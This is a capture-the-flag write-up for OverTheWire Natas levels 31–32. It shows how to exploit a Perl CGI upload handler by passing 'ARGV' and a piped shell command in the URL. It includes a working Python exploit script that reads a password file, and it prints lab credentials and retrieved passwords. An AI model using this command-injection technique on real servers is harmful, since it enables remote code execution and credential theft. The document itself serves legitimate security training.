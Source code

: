 ```
Username: natas31
URL:      http://natas31.natas.labs.overthewire.org
```

This website allows us to post a .csv file and view it inside the web page. Looking at the source code, however, it doesn't check what files you upload. You can upload any readable text file and it'll show up at the website.

```perl
if ($cgi->upload('file')) {
    my $file = $cgi->param('file');
    ...
```

While looking for vulnurabilities for the `upload()` function in perl, I found out that you can trick perl into executing bash commands through post, by passing it as an URL parameter and adding a pipe at the end. For example, instead of doing `/index.pl` normally, we can do `/index.pl?(cmd)|`.  We also have to post `ARGV`  in the form data to read the parameter, and a sample file to get it to work. Both must be sent as `file`

I did this in python again, trying to get the website to print the password for natas32:

```python
import requests
target = "http://natas31.natas.labs.overthewire.org/index.pl"
webauth = ('natas31', 'm7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y')
cmd = "cat /etc/natas_webpass/natas32"

r = requests.post(target + "?" + cmd + " |",
auth = webauth,
data = {'file': 'ARGV'},
files = {'file': ('sample.csv','lalalal', 'text/csv')}
)
print (r.text.split('<tr><th>')[-1][:32])
```

Doing this will get you the password for the next file

```
NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B
```

# 32

```
Username: natas32
URL:      http://natas32.natas.labs.overthewire.org
```

This is the same website as the previous level, so you can copy the python code from the previous level. However, going to `/etc/natas_webpass/natas32` will not work. It seems the password isn't in that location for some reason. Instead, the website states `This time you need to prove that you got code exec. There is a binary in the webroot that you need to execute.`

Doing `ls .` command will returl all the files in the webroot. I noticed that there's a file called `getpassword`, which I assume is the binary file. Run it by doing `./getpassword`, and you'll get the password for level 33.

